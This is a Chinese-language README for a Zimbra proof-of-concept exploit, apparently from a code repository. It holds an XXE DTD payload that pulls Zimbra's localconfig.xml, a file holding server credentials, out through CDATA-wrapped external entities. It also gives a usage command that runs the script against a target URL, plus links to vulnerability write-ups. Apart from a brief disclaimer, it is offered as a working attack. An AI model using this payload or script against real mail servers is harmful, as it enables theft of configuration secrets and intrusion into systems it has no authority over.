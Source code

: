 # Zimbra POC

## 用法

1. 需要自己在源代码中修改dtd_url为如下内容的dtd地址：

```xml
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

2. 使用方法：

```bash
python zimbra_poc.py https://target.com
```

3. **POC仅供验证漏洞使用，请勿用于非法用途。**

## 参考资料

1. [《A Saga of Code Executions on Zimbra》](https://blog.tint0.com/2019/03/a-saga-of-code-executions-on-zimbra.html)

2. [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

3. [漏洞预警 | Zimbra 远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484487&idx=1&sn=f2a8df3343cda9fb16f1dae0962e6dd4&chksm=96f41b2aa183923c08e3c4d1684baef02884d3097cdcd93dc0f656876bdfa7c6005b0c67db59)

4. [CVE-2013-7091 EXP](https://www.exploit-db.com/exploits/30472)

5. [Zimbra Soap API](https://files.zimbra.com/docs/soap_api/8.0.4/soap-docs-804/api-reference/index.html)

6. [《A Saga of Code Executions on Zimbra》RCE漏洞分析+复现过程](https://blog.csdn.net/fnmsd/article/details/88657083)

